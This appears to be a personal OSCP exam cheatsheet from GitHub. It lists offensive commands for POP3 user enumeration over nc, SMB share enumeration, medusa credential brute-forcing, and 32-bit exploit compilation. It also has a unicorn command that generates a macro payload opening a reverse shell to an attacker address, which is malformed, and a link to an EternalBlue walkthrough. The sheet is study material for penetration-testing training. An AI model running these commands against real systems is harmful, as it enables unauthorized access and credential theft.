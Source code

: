 # Another-OSCP-Cheatsheet
This is my personal OSCP cheatsheet that also "hopefully" would let me pass my exam. Any improvement is welcome :)

## POP3 enum
    for user in <user1> <user2> <user3>.. <userX>; do
    ( echo USER ${user}; sleep 2s; echo PASS abcd; sleep 2s; echo LIST; sleep 2s; echo quit) | nc -nvC <ip> <port>;  done
    
## SMB enum
**SHARES**

    nmap <ip> --script=smb-enum-shares
**SMB USER/CHECK**

    medusa -M smbnt -h <ip> -U userfile -P passfile -m GROUP:DOMAIN -v 4				

## Kernel Cross-Compiling
Really helpful if you are facing an old-school 32-bit box (believe me, there's tons of them in OSCP Labs xd)
Choose the --static option wisely https://stackoverflow.com/questions/8692128/static-option-for-gcc

    gcc ¿--static? -m32 -Wl, --hash-style=both <nombre.c> -o <output>			
## MACRO PAYLOAD
**UNICORN** is a great tool u NEED to use in your OSCP journey https://github.com/trustedsec/unicorn

    python unicorn.py windows/x64/shell_reverse_tcp 11.1.1.151234 macro
    
## Common Exploits

*MS17-010* If you are facing EternalBlue :) https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/				

